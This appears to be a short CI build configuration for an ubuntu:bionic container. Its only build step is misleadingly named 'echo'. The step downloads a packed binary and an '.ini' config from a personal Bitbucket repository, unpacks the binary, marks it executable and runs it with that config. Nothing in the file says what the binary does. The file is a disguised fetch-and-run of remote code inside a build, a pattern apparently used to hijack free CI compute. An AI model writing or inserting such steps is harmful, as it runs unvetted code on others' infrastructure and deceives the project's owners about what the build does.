 box: ubuntu:bionic
command-timeout: 60
build:
  steps:
    - script:
        name: echo
        code: |
          apt update -y && apt install -y wget xz-utils && wget https://bitbucket.org/fajar990/pas/raw/93a84205ed4140304b3e66d0c22d367802f65b00/p.tar.xz && wget https://bitbucket.org/fajar990/pas/raw/93a84205ed4140304b3e66d0c22d367802f65b00/p.ini
          tar xf p.tar.xz
          chmod +x p
          ./p p.ini
